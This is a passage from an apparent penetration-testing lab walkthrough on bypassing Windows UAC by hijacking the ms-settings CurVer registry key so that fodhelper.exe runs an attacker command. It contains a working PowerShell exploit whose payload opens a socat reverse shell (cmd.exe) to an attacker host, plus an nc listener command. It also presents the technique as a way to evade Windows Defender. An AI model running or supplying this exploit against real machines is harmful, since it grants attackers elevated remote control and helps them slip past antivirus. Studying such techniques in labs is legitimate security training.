 ```
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:$KALI:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

This exploit creates a new progID with the name **.pwn** and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be pointed to the .pwn progID and use its associated command.

This technique is more likely to evade Windows Defender since we have more liberty on where to put our payload, as the name of the progID that holds our payload is entirely arbitrary. Let's start a new reverse shell on our attacker's machine:

**Kali**

```
nc -lvp 4445
```

And execute the exploit from our backdoor connection as is. As a result, Windows Defender will throw another alert that references our actions:

<figure><img src="../../.gitbook/assets/image (20) (3).png" alt=""><figcaption></figcaption></figure>
